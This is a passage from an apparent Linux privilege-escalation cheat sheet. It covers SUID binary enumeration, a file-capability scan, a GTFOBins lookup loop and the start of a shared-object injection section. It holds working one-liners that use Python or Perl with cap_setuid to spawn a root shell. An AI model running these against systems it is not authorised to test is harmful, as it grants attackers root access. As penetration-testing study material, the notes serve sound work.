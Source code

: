 ````bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -la {} \; 2>/dev/null | grep -v -E "ping|mount|umount|sudo|su|passwd|unix_chkpwd|newgrp|gpasswd|chsh|at|ssh-keysign|pkexec|chfn|hosts_access|dbus-daemon-launch-helper|exim"
````

## Linux File capabilities exploitation

Liux capabilties are a granular way of providing elevated permissions to a file to allow it to do a specific action. For example a capability can allow a file to preform file reads as if they are root(meaning read any file)
```bash
# Find binaries with capabilities
getcap -r / 2>/dev/null

# Common dangerous capabilities:
# CAP_SETUID - allows changing of UID
# CAP_DAC_OVERRIDE - bypass file read/write/execute permission checks
# CAP_DAC_READ_SEARCH - bypass file/directory read permission checks
# CAP_SYS_ADMIN - basically root
# CAP_NET_RAW - packet sniffing
# CAP_CHOWN - Change file ownership
# +ep means the file can do anything as root(basically setuid)

# Example exploitation:
# If python has cap_setuid+ep
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/bash")'

# If perl has cap_setuid+ep
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'

#There are infinite potential avenues and thus its important if you encounter an unfimilar binary to look at the documentation or run -h or google the name of the binary with priv esc
```
### Shell Escape Sequences

Check GTFOBins for exploitation techniques: [GTFOBins](https://gtfobins.github.io/)

```bash
# Quick script to identify exploitable SUID binaries using GTFOBins
for suid in $(find / -type f -perm -4000 2>/dev/null); do
  basename=$(basename $suid)
  curl -s https://gtfobins.github.io/gtfobins/$basename/ | grep -q "suid" && echo "[+] $suid can be exploited via SUID!"
done
```

### Shared Object Injection

Requirements:

- SUID binary calls missing shared object (.so) file
- Write access to the directory containing the missing .so
